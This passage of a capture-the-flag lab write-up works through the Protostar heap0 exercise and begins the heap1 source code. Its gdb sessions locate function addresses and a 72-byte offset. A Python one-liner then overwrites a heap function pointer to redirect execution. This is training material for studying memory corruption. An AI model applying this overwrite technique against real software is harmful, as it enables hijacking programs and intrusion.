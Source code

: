 ```shell
```

We also see that the address of the `nowinner()` function is stored on the
heap due to `f->fp = nowinner`.

```shell
(gdb) print &nowinner
$1 = (void (*)(void)) 0x8048478 <nowinner>
```

We can overwrite that address with the address of `winner()` which will then
be executed by `f->fp()`. Looking at the heap layout, we can see that we need
to write 72 bytes followed by `winner()`'s memory address.

```shell
(gdb) run `python -c "print 'A'*72 + 'BBBB'"`
Starting program: /opt/protostar/bin/heap0 `python -c "print 'A'*72 + 'BBBB'"`
data is at 0x804a008, fp is at 0x804a050

Program received signal SIGSEGV, Segmentation fault.
0x42424242 in ?? ()
```

We find the memory address of `winner()`.

```shell
(gdb) print &winner
$1 = (void (*)(void)) 0x8048464 <winner>
```

Putting everything together,

```shell
user@protostar:~$ /opt/protostar/bin/heap0 $(python -c "print 'A'*72 + '\x64\x84\x04\x08'")
data is at 0x804a008, fp is at 0x804a050
level passed
```

# heap 1

We are given the below source code.

```c
#include <stdlib.h>
#include <unistd.h>
#include <string.h>
#include <stdio.h>
#include <sys/types.h>

struct internet {
  int priority;
  char *name;
};

void winner()
{
  printf("and we have a winner @ %d\n", time(NULL));
}

int main(int argc, char **argv)
{
  struct internet *i1, *i2, *i3;

  i1 = malloc(sizeof(struct internet));
  i1->priority = 1;
  i1->name = malloc(8);

  i2 = malloc(sizeof(struct internet));
```